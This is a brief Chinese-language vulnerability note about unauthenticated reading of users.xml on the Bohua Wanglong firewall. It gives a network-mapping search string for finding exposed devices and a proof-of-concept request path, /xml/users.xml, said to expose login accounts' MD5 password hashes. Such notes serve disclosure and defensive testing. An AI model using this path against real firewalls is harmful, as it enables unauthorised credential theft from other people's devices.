

# 博华网龙防火墙 users.xml 未授权访问

## 漏洞描述

博华网龙防火墙 users.xml文件 可被任意用户读取，其中包含登录的账号密码

## 漏洞影响

```
博华网龙防火墙
```

## 网络测绘

```
"博华网龙防火墙"
```

## 漏洞复现

登录页面


验证POC, 读取配置文件获取密码的Md5

```php
/xml/users.xml
```

